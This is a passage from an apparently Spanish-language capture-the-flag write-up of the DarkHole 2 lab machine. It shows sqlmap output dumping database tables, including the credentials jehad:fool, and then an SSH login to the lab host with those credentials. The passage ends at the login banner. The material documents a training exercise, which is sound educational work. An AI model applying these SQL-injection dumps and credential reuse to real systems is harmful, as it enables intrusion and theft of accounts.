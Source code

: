 ```bash
| id | pass | user   |
+----+------+--------+
| 1  | fool | jehad  |
+----+------+--------+

[19:28:04] [INFO] table 'darkhole_2.ssh' dumped to CSV file '/root/.local/share/sqlmap/output/192.168.1.83/dump/darkhole_2/ssh.csv'
[19:28:04] [INFO] fetching columns for table 'users' in database 'darkhole_2'
[19:28:04] [INFO] fetching entries for table 'users' in database 'darkhole_2'
Database: darkhole_2
Table: users
[1 entry]
+----+----------------+---------------+----------+-----------------------------+----------------+
| id | email          | address       | password | username                    | contact_number |
+----+----------------+---------------+----------+-----------------------------+----------------+
| 1  | lush@admin.com | <h1>test</h1> | 321      | Jehad Alqurashiasddasdasdas | 1111111111     |
+----+----------------+---------------+----------+-----------------------------+----------------+

[19:28:04] [INFO] table 'darkhole_2.users' dumped to CSV file '/root/.local/share/sqlmap/output/192.168.1.83/dump/darkhole_2/users.csv'
[19:28:04] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/192.168.1.83'
[19:28:04] [WARNING] your sqlmap version is outdated

[*] ending @ 19:28:04 /2023-01-24/
```

Hemos extraído un usuario y contraseña de la tabla ssh de la base de datos DarkHole2:

- **jehad:fool**

## Privesc

Con estos datos podemos iniciar sesión por SSH
```bash
❯ ssh jehad@192.168.1.83
jehad@192.168.1.83's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-81-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue 24 Jan 2023 06:30:22 PM UTC

  System load:  0.03               Processes:              234
  Usage of /:   52.3% of 12.73GB   Users logged in:        0
  Memory usage: 21%                IPv4 address for ens33: 192.168.1.83
  Swap usage:   0%

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

249 updates can be applied immediately.
180 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable

New release '22.04.1 LTS' available.
Run 'do-release-upgrade' to upgrade to it.


Last login: Tue Jan 24 17:13:33 2023 from 192.168.1.42
```